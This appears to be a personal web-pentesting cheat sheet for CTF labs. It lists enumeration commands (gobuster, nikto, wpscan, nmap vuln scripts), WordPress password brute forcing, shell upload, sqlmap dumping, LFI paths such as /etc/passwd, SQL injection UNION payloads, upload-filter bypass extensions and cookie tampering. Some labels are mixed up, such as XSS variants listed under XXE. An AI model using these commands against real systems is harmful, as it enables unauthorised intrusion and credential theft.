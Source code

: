 ### Enumeration
- assetfinder
- subfinder
  - `subfinder -d url -o filename`
- Amass
  - `amass enum- d url`
- crt.sh
- dirbuster
- theHarvester
- httprobe - validate what is live
- gobuster
  - `gobuster dir -u http://10.10.10.10:port -w /usr/share/wordlists/dirb/big.txt`
- builtwith
- wappalyzer
  - software vulns
- Nikto
  - `nikto -h -10.10.10.10 -p 80,8080,1234`
- wpscan
  - `wpscan --update`
  - `wpscan --url <ip>`
  - `wpscan --url [url] --enumerate [p/vp/ap/t/vt/at] --plugins-detection aggressive`
  - `wpscan --url [target URL] --enumerate u`
  - `wpscan --url http://internal.thm/blog/ --passwords /opt/wordlists/rockyou.txt`
  - upload shell to WP_dashboard
- nmap scans
  - `nmap --script=http-enum <host>`
  - `nmap --script=http-vuln* $ip`
- GTFOBins
- sitemap.xml - add to end of url
  - `http://10.10.10.10/sitemap.xml`
- curl pages

### Options
- View contents of mysql files
  - Example: /content/inc/mysql_backup could contain .sql backup file with user hashes
-  Brute force
  - *reference username&password page*
- sqlmap
  - copy login portal post request from burp -> sqlmap.txt
  - `sqlmap -r sqlmap.txt --dump`
  - check for any interesting tables
- source code and inspect 
- LFI
  - Directories
    - /etc/passwd
    - /var/log/apache2/access.log
    - C:\Windows\System32\drivers\etc\hosts
- SQL Injection
  - Union
    - `' UNION SELECT NULL,NULL,NULL--`
    - `' UNION SELECT 'a',NULL,NULL,NULL--`
  - Bind
  - XXS
- Command Injection
- File Upload
  - .php5, .shtml, php.jpg, php%00.jpg
- Auth
- IDOR
  - attempt to manipulate url (such as an id number)
  - view post/get requests - data, query strings, cookies
    - decode, change it, and recode
- XXE
  - Reflected - comes from current HTTP request
  - Stored - comes from websites database
  - DOM-based - comes from client side code rather than service-side code
- Uniscan for LFI, RFI and RCE vulnerabilities
  - `uniscan -u http://10.10.10.10/ -qd`
- vuln scans
  - `nmap --script=http-enum <host>`
  - `nmap --script=http-vuln* $ip`
  - nikto -h $ip
    - very loud and obvious

#### Cookies
- `curl http://10.10.10.10/cookie-test`
- `curl -H "Cookie: logged_in=true; admin=false" http://10.10.10.10/cookie-test`
- `curl -H "Cookie: logged_in=true; admin=true" http://10.10.10.10/cookie-test`
- attempt to crack hashed cookies or decode encoded cookies

#### Favicon
- can view favicon hash and see if there are vulns
- `curl https://static-labs.tryhackme.cloud/sites/favicon/images/favicon.ico | md5sum`
- visit: https://wiki.owasp.org/index.php/OWASP_favicon_database
